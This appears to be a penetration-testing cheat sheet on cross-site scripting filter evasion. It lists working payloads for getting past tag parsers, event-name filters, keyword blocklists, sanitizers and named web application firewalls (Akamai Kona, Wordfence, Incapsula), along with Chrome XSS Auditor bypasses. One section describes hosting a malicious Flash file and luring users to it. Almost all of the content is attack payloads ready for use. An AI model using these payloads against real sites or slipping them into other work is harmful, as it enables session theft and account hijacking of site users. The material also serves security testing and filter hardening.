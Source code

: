# Filter Evasion

## Common Techniques

### Script tag

#### Weak tag parsing bypass

```
<ScRiPt>...</sCrIpT>
<ScRiPt>...    #unclosed tags
<script/[gibberish]>...<script>
<script [\n\r\t]>...</script>
<script [\x00 \x0D \x0A]>... </script [\x00 \x0D \x0A]>
<scr<script>ipt>...</scr<script>ipt>
```

#### Common alternative tags

Require use interaction

```
<a href="javascript:[code]">show</a>
<a href="data:text/html;base64,[base64 payload]">show</a>

<form action="javascript:[code]><button>Click me</button></form>
<form id="f1"></form><button form="x" formaction="javascript:[code]">Click me</button>

<object data="javascript:[code]">
<object data="text/html:<script>[code]</script>">
<object data="data:text/html;base64,[base64 payload]">
```

#### EvilCos

Can be downloaded [here](https://github.com/evilcos/xss.swf).

Host the page on a site that you control and trick a user to navigate to it or trigger a HTTP request to the malicious URL.

```
<object data="[evil site]/xss.wfs">
<object data="[evil site]/xss.wfs" allowscriptaccess="always">
```

### Events

#### Common HTML 4

```
<body onload="[code]">
<input type="image" src="x" onerror="[code]">
<isindex onmouseover="[code]">
<form oninput="[code]"><input></form>
<textarea autofocu onfocus="[code]">
<input oncut="[code]">
```

#### Common HTML 5

```
<svg onload="[code]">
<keygen autofocus onfocus="[code]">
<video><source onerror="[code]">
<marquee onstart="[code]">
```

#### Filter Bypass

Bypass filter that match every word that starts with on by exploiting browser dynamisms

```
<svg/onload=...>
<svg///////onload=...>
<svg id="x";onload=...>
<svg id=x;onload=...>
<svg id=`x`onload=...>
```

Bypass filters by exploiting control characters not included in the /s regex selector

```
<svg onload%09=...>
<svg %09onload=...>
<svg %09onload%20=...>
<svg onload%09%20%28%2c%3b=...>
<svg onload%0b=...>
```

List of control characters commonly allowed after the equal sign or just before the event name to  use to spoof filters

```
%09 %0b %0c %20 %3b    #Internet Explorer
%09 %20 %28 %2c %3b    #Google Chrome
%2c %3b                #Safari
%09 %20 %28 %2c %3b    #Firefox
%09 %20 %2c %3b        #Opera
%09 %20 %28 %2c %3b    #Android
```

### Keywords

Some filters try to detect common words used in XSS attacks such as alert, document, xhr, cookie etc...

#### Bypass by encoding

URL encoding, Unicode and CSS formats can be used directly inside HTML pages without needing native tools. These techniques can be combined with each other to form even more complex payloads

```
alert
\u0061lert
&#x0061lert
&#97lert

#the encoding formats below require the input to be in a string
eval('\141lert')
eval('\x61lert')

#useless escapte characters
eval('\a\l\e\rt(\1\)')
```

#### Bypass by constructing strings

```
alert
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)    #Hex unicode encoding
atob("YWxkcnQ=")                           #Base64 paylad
17795081..toString(36)                     #Convert the number on the left to a base36 string
```

#### Alternatives function sinks

```
setTimeout
setInterval
Function
[].constructor.constructor("[code]")
```

### Sanification Bypass

#### Remove tags

```
<scr<script>ipt>...</script>    #script might check only first instance
<scr<iframe>ipt>...</script>    #recursive scripts might not start every iteration from the beginnig of the string
```

#### Escape quotes

```
eval(\'...\')            #the filter replaces ' with \' so by adding \ we obtain \' --> \\'
String.fromCharCode(...) #generate string from sequence of unicode hex chars
unescape(/%78%u0073%73/.source)                  #decode escaped characters
decodeURI(/alert(%22...%22)/.source)             #decode URL escaped chars
decodeURIComponent(/alert(%22...%22)/.source)    #decode URL escaped chars
```

#### Escape parenthesis

By invoking the throw function it is possible to encode the parenthesis characters. Since the payload is in a string it is possible to use all the obfuscation techniques described in the Keywords section

```
<img src=x onerror="window.onerror=eval;throw='alert\x28\x29'"
```

## WAF Bypass

### Google Chrome Payloads

#### Google XSS Audit Bypass

```
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

#### Chrome < v60 beta XSS-Auditor Bypass

```
<script src="data:,alert(1)%250A-->
```

#### Other Google Audit Bypass Payloads

```
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

### Safari

```
<script>location.href;'javascript:alert%281%29'</script>
```

### Kona WAF (Akamai) Bypass&#xD;

```
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

### Wordfence&#x20;

```
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

### Incapsula WAF

```
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
```
